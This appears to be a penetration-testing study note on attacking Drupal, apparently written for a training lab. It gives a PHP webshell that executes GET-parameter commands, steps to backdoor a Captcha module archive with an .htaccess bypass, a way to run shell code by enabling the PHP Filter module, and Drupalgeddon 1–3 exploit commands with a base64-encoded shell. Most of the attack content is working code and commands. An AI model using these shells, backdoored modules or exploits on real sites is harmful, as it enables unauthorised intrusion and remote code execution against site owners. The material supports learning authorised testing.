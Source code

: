 #### Leveraging the PHP Filter Module

1. Enable PHP Filter Module
2. Create Basic Page
3. Add webshell to basic page
4. Set text format to PHP

After drupal 8 the php filter wont be installed natively so we need to add it ourselves

We can get the package and then upload it to modules
```shell-session
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```
Once downloaded go to `Administration` > `Reports` > `Available updates`.

#### Uploading backdoored modules

Get module
```shell-session
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
```
extract module
```shell-session
tar xvf captcha-8.x-1.2.tar.gz
```
create webshell
```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```
create .htaccess file
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
**Note:This is necessary as Drupal denies direct access to the /modules folder.

Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar. Next, click on the `+ Install new module` button, and we will be taken to the install page, such as `http://drupal.inlanefreight.local/admin/modules/install` Browse to the backdoored Captcha archive and click `Install`

Once the installation succeeds, browse to `/modules/captcha/shell.php` to execute commands.


#### Leveraging Known Vulnerabilities

[drupalgeddon](https://www.exploit-db.com/exploits/34992)

basic usage
```shell-session
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

[drupalgeddon2](https://www.exploit-db.com/exploits/44448)

create php webshell base64 encoded
```shell-session
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
```
basic usage
```shell-session
python3 drupalgeddon2.py 
```

[drupalgeddon3](https://cvedetails.com/cve/CVE-2018-7602/)

obtain valid session cookie from admin login with burp

use metasploit to run exploit
![[Pasted image 20250421011002.png]]
